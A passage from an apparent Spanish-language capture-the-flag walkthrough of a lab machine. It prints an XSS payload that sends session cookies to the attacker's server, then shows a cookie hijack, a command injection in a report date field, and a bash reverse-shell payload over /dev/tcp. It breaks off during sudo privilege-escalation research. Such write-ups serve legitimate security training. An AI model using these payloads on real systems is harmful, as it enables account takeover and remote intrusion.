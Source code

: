 ![[Pasted image 20240601112326.png]]
```bash
<img src=x onerror=fetch('http://10.10.14.3/'+document.cookie);>
```

y nos reportaría la cookie de sesión en nuestro servidor Python.
![[Pasted image 20240601112933.png]]


copiamos esta cookie, abrimos nuestro navegador, y ponemos esta cookie de sesión. (De no saber hacerlo investigar como poner cookie de sesión en su navegador), en el caso de Firefox es así:

**CTRL + SHIF + C > Network**

y en "**value**" la ponemos.

![[Pasted image 20240601113202.png]]
Ahora intento ver sí tengo permisos para ver el directorio "**/dashboard**", y...
![[Pasted image 20240601113254.png]]

he logrado obtener una cookie válida para ver el **dashboard**, y vemos que podemos generar reportes, no veo nada interesante de primera, así que opto interceptar los reportes con **BurpSuite**.

Viendo la siguiente data en la petición:
![[Pasted image 20240601113658.png]]
intento probar inyecciones del sistema operativo, en este caso Linux.
![[Pasted image 20240601113757.png]]
y vualá, logro ver directorios & archivos de la aplicación web, así que ya que tengo un **RCE** procedemos a enviarme una **Reverse Shell,** ganando acceso a la máquina.

Nos ponemos en escucha en nuestra máquina local.
```bash
nc -nlvp PORT
```

Payload para la reverse shell en la **DATA**:
```bash
date=2023-09-15D;bash+-c+"bash+-i+>/dev/tcp/10.10.x.x/PORT+0>%261"
```

![[Pasted image 20240601114145.png]]

Ya tenemos la Reverse Shell, ya sólo quedaría darle tratamiento a la TTY, que sino sabes cómo mira este POST [((Click aquí))](https://4uli.github.io/tratamiento-tty/#)

# Escalada de Privilegios

como **dvir**, tenemos los siguiente permisos **SUDOERS**.
![[Pasted image 20240601114453.png]]
podemos ejecutar sin proporcionar contraseña el binario "**syscheck**", y como el usuario que queramos, por lo que indago en búsqueda de posibles escalada de privilegios para este binario, pero no está contemplado en **GTFobins**, así que indago en su código fuente...
